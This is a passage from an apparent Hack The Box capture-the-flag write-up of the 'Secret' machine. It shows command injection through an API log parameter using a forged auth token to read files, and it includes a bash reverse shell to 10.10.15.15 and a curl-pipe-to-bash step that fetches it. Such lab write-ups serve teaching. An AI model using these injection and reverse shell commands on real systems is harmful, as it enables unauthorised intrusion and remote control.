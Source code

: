 Ok so we are the dasith user, let's look in their home folder:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;ls+-ls+/home/dasith' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
<SNIP>
 4 drwxrwxr-x 8 dasith dasith   4096 Nov 18 22:14 local-web
 4 -r-------- 1 dasith dasith     33 Nov 18 15:43 user.txt"
```

## User Flag

Might as well grab the user flag:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;cat+/home/dasith/user.txt' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
<SNIP>
c5d9aea30b9787de4c6776da13f5f57f
```

## Reverse Shell

Now let's get a reverse shell, we can use a simple one like this and put it in a shell file so we can execute it:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# cat pencer_shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.15.15/1338 0>&1'
```

Start a web server so we can pull that file across, also start a netcat listener to catch our shell. Now as before send as a parameter:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;curl+http://10.10.15.15/pencer_shell.sh+|+bash' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
{"killed":false,"code":1,"signal":null,"cmd":"git log --oneline ;curl http://10.10.15.15/pencer_shell.sh | bash"}
```

We see the file pulled from our web server:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.120 - - [18/Nov/2021 22:11:37] "GET /pencer_shell.sh HTTP/1.1" 200 -
```
